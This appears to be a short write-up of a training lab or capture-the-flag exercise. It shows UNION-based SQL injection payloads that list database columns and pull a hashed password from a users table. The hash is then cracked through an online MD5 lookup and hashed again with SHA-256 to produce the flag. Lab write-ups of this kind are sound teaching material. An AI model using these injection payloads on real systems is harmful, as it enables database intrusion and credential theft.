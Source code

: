 
5 UNION SELECT table_name, column_name FROM information_schema.columns

Commentaire countersign

ID: 5 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

[md5_decrypt](https://www.md5online.org/md5-decrypt.html) (5ff9d0165b4f92b14994e5c685cdce28) = tolower(FortyTwo) = fortytwo

[Sha256](https://md5decrypt.net/en/Sha256/)(fortytwo) = `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`